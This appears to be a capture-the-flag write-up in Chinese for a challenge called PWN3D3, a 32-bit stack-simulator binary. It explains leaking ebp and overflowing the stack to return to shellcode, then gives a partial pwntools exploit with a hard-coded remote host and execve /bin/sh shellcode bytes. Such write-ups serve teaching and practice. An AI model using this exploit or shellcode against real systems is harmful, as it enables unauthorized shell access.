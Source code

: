 
## PWN3D3
32 bit ELF, 一樣沒開 DEP  

這是一個簡單的模擬 stack 的程式  
功能有 push, pop, show, exit  
push 的話會要你先輸入一個 integer  
之後程式會把這個 integer 放在 stack 上面  
可以透過 show 功能去查看 stack 目前長什麼樣子  
pop 的話會把 stack 上面的一個數字 pop 出來  
exit 則是離開程式

透過一些 fuzzing  
我們可以發現當 stack 上面沒東西的時候  
利用 pop 功能可以 leak 出一些 address，包括 ebp  
因此我們可以利用這個功能來計算當前 stack 的位置以及我們 input buffer 的 address  
至於 push 功能，我們會發現說如果我們一直 push 東西進 stack 的話  
最後會發生 stack overflow, 覆蓋到 return address  
加上沒開 DEP 的關係，因此思路跟 PWN3D2 很像  
先利用 pop 功能 leak 出 ebp 並算出 buffer 的 address  
之後利用 push 功能觸發 buffer overflow 並 return to shellcode 拿 shell  

要注意的是它 stack 上面會存有一個 address  
是 exit 時拿來計算 esp 用的  
因此這個 address 要小心不要被修改到  
還有就是因為這題在蓋的時候是用 integer 在蓋  
因此 payload 都要轉成 integer 的形式 (注意要是 int32 )  

```python
#!/usr/bin/env python

from pwn import *
import sys
import time
import numpy

HOST = "52.69.163.194"
PORT = 3333
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

r = remote(HOST, PORT)
#r = process("./pwn3")

shellcode_byte = [ 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0xb0, 0x0b, 0x31, 0xc9, 0x31, 0xd2, 0xcd, 0x80 ]

# constructing shellcode data
shellcode = [0x90] * 9
for c in shellcode_byte:
	shellcode.append(c)

payload = []
cur = 0
for index, val in enumerate(shellcode):
	now = index % 4
	cur |= val << (now*8)
```